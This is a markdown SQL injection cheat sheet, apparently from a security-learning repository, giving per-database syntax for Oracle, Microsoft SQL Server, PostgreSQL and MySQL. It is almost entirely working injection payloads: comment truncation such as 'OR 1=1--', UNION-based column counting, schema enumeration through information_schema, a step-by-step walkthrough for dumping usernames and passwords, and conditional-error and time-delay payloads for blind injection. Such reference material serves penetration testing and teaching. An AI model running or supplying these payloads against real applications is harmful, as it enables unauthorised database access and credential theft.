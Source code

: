 # SQL cheet sheat

This SQLi cheat sheet contains examples of useful syntax that you can use to perform a variety tasks that often arise when SQL injection attacks.

## Comments

You can use comments to truncate a query and remove the portion of the original query that follows your input

<pre>
<b>Oracle</b>:
		--comment
<b>Microsoft</b>:
		--comment
		/*comment*/
<b>PostgreSQL</b>:
		--comment
		/*comment*/
<b>MySQL</b>:
		#comment
		-- comment (note that the space needs to follow the double dashb)
		/*comment*/
</pre>

***Example***:
```SQL
	SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
	SELECT * FROM products WHERE category = 'football' OR 1=1--' AND released = 1
	SELECT * FROM products WHERE category = 'football'--' AND released = 1
	UNION SELECT username, password FROM users-- 
```

## Database version

<pre>
<b>Oracle</b>:
		SELECT banner FROM v$version
		SELECT version FROM v$instance
<b>Microsoft</b>:
		SELECT @@version
<b>PostgreSQL</b>
		SELECT version()
<b>MySQL</b>:
		SELECT @@version
</pre>

## Number of columns and type of each columns:

If the number of nulls does not match the number of columns, the databas return an error.
```SQL
	UNION SELECT NULL-- (FROM DUAL-- should follow NULL for the injected queries on Oracle )
	UNION SELECT NULL,NULL--
	UNION SELECT NULL,NULL,NULL--
```
OR

This method involves injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs
```SQL
	ORDER BY 1--
	ORDER BY 2--
	ORDER BY 3--
```

After getting the number of comlumns. We can replace`NULL` by `string` or `int` value (i.e: 'abc', 123) to detect the type of data in each column:
```SQL
	UNION SELECT 'abc',NULL,NULL,NULL--
	UNION SELECT NULL,'abc',NULL,NULL--
	UNION SELECT NULL,NULL,123,NULL--
```

## String concatenation

<pre>
<b>Oracle</b>:
		'foo'||'bar'
<b>Microsoft</b>:
		'foo'+'bar'
<b>PostgreSQL</b>:
		'foo'||'bar'
<b>MySQL</b>:
		'foo' 'bar' (the space needs to between the two strings)
		CONCAT('foo','bar')
</pre>

For example:
```SQL
UNION SELECT username || '~' || password FROM users--
```
==> results:
```
...
administrator~password1
user2~password2
user3~password3
...  
```

## Substring

Each of the following expressions will return the string `ba` (Note that the offset index is *1-based*).

<pre>
<b>Oracle</b>:
	SUBSTR('foobar', 4, 2)
<b>Microsoft</b>, <b>PostgreSQL</b>, <b>MySQL</b>:
	SUBSTRING('foobar', 4, 2)
</pre>

## Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

**Oracle**:
```SQL
	SELECT * FROM all_tables
	SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
```
**Microsoft**, **PostgreSQL**, **MySQL**:
```SQL
	SELECT * FROM information_schema.tables
	SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
Example of SQL injection attack, listing the database content on non-Oracle databases:

```SQL
-- 1. Verify that the qurey is returning two columns, both of which contain text:
UNION SELECT 'abc','def'--
-- 2. Retrieve the list of tables in the database (table_name is found by searching information_chema.table)
UNION SELECT table_name, NULL FROM information_schema.tables--
-- 3. Find the name of the table containing user credentials ==> user_xxx
-- 4. Retrieve the details of the columns in the table
UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='user_xxx'--
-- 5. Find the names of the columns containing usernames and passwords (i.e: username_xxx, password_xxx)
-- 6. Retrieve the usernames and passwords for all
UNION SELECT username_xxx,+password_xxx FROM user_xxx--

```

## Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true

**Oracle**
```SQL
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
```
**Microsoft**
```SQL
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
```
**PostgreSQL**
```SQL
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
```
**MySQL**
```SQL
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') 
```

## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

**Oracle** 	
```SQL
dbms_pipe.receive_message(('a'),10)
```
**Microsoft** 	
```SQL
WAITFOR DELAY '0:0:10'
```
**PostgreSQL** 	
```SQL
SELECT pg_sleep(10)
```
**MySQL** 	
```SQL
SELECT sleep(10) 
```
## Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

**Oracle** 	
```SQL
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
```
**Microsoft** 	
```SQL
IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
```
**PostgreSQL** 	
```SQL
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
```
**MySQL** 	
```SQL
SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
```

